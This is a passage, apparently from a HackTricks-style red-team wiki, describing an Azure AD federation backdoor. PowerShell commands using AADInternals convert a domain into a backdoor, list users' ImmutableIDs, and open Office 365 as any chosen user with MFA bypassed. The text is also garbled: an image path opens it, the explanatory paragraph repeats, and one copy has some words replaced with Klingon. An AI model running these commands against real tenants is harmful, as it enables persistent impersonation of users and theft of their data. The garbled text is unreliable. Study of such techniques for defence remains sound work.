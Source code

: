 **GA privileges** on a tenant, **add a new domain** (must be verified), **configure its authentication type** to Federated and **configure the domain** to **trust a specific certificate** (any.sts in the below command) and issuer:

### Federation - Qa'Hom QaD

**GA privileges** lo'laH tenant, **add a new domain** (must be verified), **configure its authentication type** to Federated and **configure the domain** to **trust a specific certificate** (any.sts in the below command) and issuer:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## References

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
